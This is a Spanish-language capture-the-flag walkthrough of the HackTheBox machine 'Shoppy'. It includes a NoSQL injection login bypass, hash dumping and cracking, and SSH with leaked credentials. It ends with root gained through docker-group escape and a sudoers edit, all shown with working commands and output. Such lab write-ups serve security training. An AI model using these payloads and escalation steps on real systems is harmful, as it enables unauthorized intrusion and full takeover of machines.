






Resolución de la máquina Shoppy de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.10.11.180
Nmap scan report for 10.10.11.180
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Al hacer un simple curl y mirar las cabeceras podemos ver el dominio shoppy.htb
❯ curl -s 10.10.11.180 -I | grep Location
Location: http://shoppy.htb
Haciendo un poco de fuzzing podemos ver un /admin que nos redirige a /login
❯ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100 -u shoppy.htb
===============================================================
[+] Url: http://shoppy.htb
[+] Threads: 100
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin (Status: 302) [Size: 28] [--> /login]
/login (Status: 200) [Size: 1074]
/exports (Status: 301) [Size: 181] [--> /exports/]
Mirándolo desde la web podemos ver un panel de autenticación

Podemos bypassearlo con una inyección nosql de mongodb de payloadsallthethings admin'||'1==1

Al entrar al panel podemos ver un buscador de usuarios

Podemos probar en el buscador usar el mismo payload del login admin'||'1==1
Al usar el payload nos da una opción de exportar el resultado

En el resultado podemos ver un par de usuarios, y hashes
[
{
"_id": "62db0e93d6d6a999a66ee67a",
"username": "admin",
"password": "23c6877d9e2b564ef8b32c3a23de27b2"
},
{
"_id": "62db0e93d6d6a999a66ee67b",
"username": "josh",
"password": "6ebcea65320589ca4f2f1ce039975995"
}
]
Al usar john para decifrar los hashes podemos romper uno y ver una contraseña
❯ cat hashes
admin:23c6877d9e2b564ef8b32c3a23de27b2
josh:6ebcea65320589ca4f2f1ce039975995
❯ john -w:/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hashes --format=Raw-MD5
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 128/128 XOP 4x2])
remembermethisway (josh)
Session completed
Fuzzeando subdominios podemos encontrar que existe mattermost.shoppy.htb
❯ gobuster vhost -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 100 -u shoppy.htb
===============================================================
[+] Url: http://shoppy.htb
[+] Threads: 100
[+] Wordlist: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]
Al darle un vistazo podemos ver otro login, para el cual podemos usar las credenciales

Podemos ver una conversación, la cual bueno... nos regala credenciales por ssh

Simplemente nos conectamos y podemos leer la primera flag
❯ ssh jaeger@10.10.11.180
jaeger@10.10.11.180's password: Sh0ppyBest@pp!
jaeger@shoppy:~$ id
uid=1000(jaeger) gid=1000(jaeger) groups=1000(jaeger)
jaeger@shoppy:~$ hostname -I
10.10.11.180 172.17.0.1 dead:beef::250:56ff:feb9:703f
jaeger@shoppy:~$ cat user.txt
6ae**************************83c
jaeger@shoppy:~$
Mirando privilegios de sudoers, podemos ejecutar un binario como el usuario deploy
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger: Sh0ppyBest@pp!
Matching Defaults entries for jaeger on shoppy:
secure_path=/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User jaeger may run the following commands on shoppy:
(deploy) /home/deploy/password-manager
jaeger@shoppy:~$
Al ejecutarlo nos pide una contraseña, asi que no tenemos acceso
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: test
Access denied! This incident will be reported !
jaeger@shoppy:~$
Si le hacemos un cat al archivo podemos ver una parte que al darle forma se ve asi
jaeger@shoppy:/home/deploy$ cat password-manager
<..............................................>
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
cat /home/deploy/creds.txt
Access denied!
This incident will be reported !
<..............................................>
Ejecutando el archivo y pasandole la contraseña lekeada encontramos credenciales
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
jaeger@shoppy:~$
Nos podemos conectar por ssh como deploy con las credenciales
❯ sshpass -p 'Deploying@pp!' ssh deploy@10.10.11.180
$ bash
deploy@shoppy:~$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
deploy@shoppy:~$ hostname -I
10.10.11.180 172.17.0.1 dead:beef::250:56ff:feb9:703f
deploy@shoppy:~$
Al hacer id podemos ver que esta en el grupo docker
deploy@shoppy:~$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
deploy@shoppy:~$
Mirando gtfobins podemos ver que hay una manera de conseguir shell de root
Corriendo un contenedor y montando la raiz, podemos ser root en el y leer la flag
deploy@shoppy:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt bash
root@ff6ce41bd41e:/# whoami
root
root@ff6ce41bd41e:/# cat /root/root.txt
b2d**************************787
root@ff6ce41bd41e:/#
Aunque somos root, seguimos en un contenedor con una montura, podemos modificar los sudoers y ver los cambios de la montura reflejados en la máquina real
root@ff6ce41bd41e:/# echo 'ALL ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
root@410fb3ebe8eb:/# exit
deploy@shoppy:~$ sudo -l
Matching Defaults entries for deploy on shoppy:
secure_path=/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User deploy may run the following commands on shoppy:
(ALL) NOPASSWD: ALL
deploy@shoppy:~$
Ahora tenemos privilegio máximo en sudoers, hacemos sudo su y somos root
deploy@shoppy:~$ sudo su
root@shoppy:~# id
uid=0(root) gid=0(root) groups=0(root)
root@shoppy:~# hostname -I
10.10.11.180 172.17.0.1 dead:beef::250:56ff:feb9:703f
root@shoppy:~# cat root.txt
b2d**************************787
root@shoppy:~#